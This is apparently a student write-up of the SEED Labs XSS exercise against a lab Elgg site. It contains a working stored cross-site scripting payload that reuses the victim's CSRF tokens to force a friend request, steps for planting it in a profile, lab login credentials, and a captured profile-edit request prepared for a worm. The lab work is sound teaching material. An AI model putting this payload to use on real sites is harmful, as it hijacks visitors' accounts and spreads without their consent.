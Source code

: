 ```  <script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
  };
</script>
```
Log in with username samy and password seedsamy.

Add the code above in Profile -> About me by edit html mode.

Now on the VM 10.0.2.4, sign in as Boby and visit Samy's profile(http://www.xsslabelgg.com/profile/samy), without any extra action, just refresh the page, it shows that Samy is already your (i.e. Boby) friend.



#Task 5



When editing a user's (Alice) own profile legally, the network tool captures such an HTTP POST request:

```Request URL: http://www.xsslabelgg.com/action/profile/edit
__elgg_token=VSvHyrizEfLuFJUoNPOQXg
__elgg_ts=1589672946
name=Alice
description=<p>dsadsa</p>
accesslevel[description]=2
briefdescription=dasasda
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=44
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
```